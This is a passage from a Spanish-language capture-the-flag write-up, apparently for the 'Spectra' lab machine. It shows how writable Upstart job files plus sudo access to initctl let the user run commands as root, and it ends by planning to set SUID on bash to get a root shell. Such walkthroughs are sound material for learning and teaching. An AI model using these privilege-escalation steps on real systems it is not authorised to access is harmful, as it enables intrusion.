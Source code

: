 Ya que esta levantando un servidor web en ese puerto... Lo que quiere decir que cada vez que algún `testX.conf` esta activo, tendríamos el puerto `8081` abierto.

Para ver que **jobs** están activos de los que nos interesan (`testX.conf`) podemos ejecutar:

```bash
katie@spectra /etc/init $ sudo /sbin/initctl list | grep test
test stop/waiting
test1 stop/waiting
test7 stop/waiting
test6 stop/waiting
test5 stop/waiting
test4 stop/waiting
test10 stop/waiting
test9 stop/waiting
test8 stop/waiting
test3 stop/waiting
test2 stop/waiting
```

Para iniciar o detener simplemente indicamos `start` o `stop` respectivamente y el nombre del job. 

Entonces sabemos que podemos ejecutar este comando como usuario administrador del sistema, además sabemos que podemos modificar los archivos, ya que su grupo es el grupo `developers`, en el cual estamos nosotros. Asi que podemos probar a guardar el input del `id` en el mismo archivo `.log` y asi corroborar que somos root y que tenemos ejecucion de comandos, démosle a ver:

```bash
katie@spectra /etc/init $ cat test9.conf 
...
pre-start script
    echo "[`date`] Node Test Starting" >> /var/log/nodetest.log
    id >> /var/log/nodetest.log
end script
...
```

Entonces, cuando hagamos `start` guardara la cadena de texto, pero además (si todo va bien) guardara el id del usuario que ejecuta la tarea (en este caso `root` al hacer uso de `sudo`):

```bash
katie@spectra /etc/init $ sudo /sbin/initctl start test9
test9 start/running, process 4684
```

Yyyyy:

```bash
katie@spectra /etc/init $ cat /var/log/nodetest.log
[Tue Mar  9 16:41:30 PST 2021] Node Test Starting
uid=0(root) gid=0(root) groups=0(root)
```

Perfecto, peeeeeeeeeeeeeerfecto, con esto ya podríamos directamente ver la flag, pero intentemos obtener una Shell (aun teniendo en cuenta los problemitas que puso `bash` al inicio).

Para esto podemos otorgarle el permiso `SUID` a la bash que tenemos, asi despues simplemente indicaríamos `bash -p` (para que atienda al privilegio del `SUID`) y cambiaríamos la Shell inicial (`katie`) a la que esta ejecutando `root`:
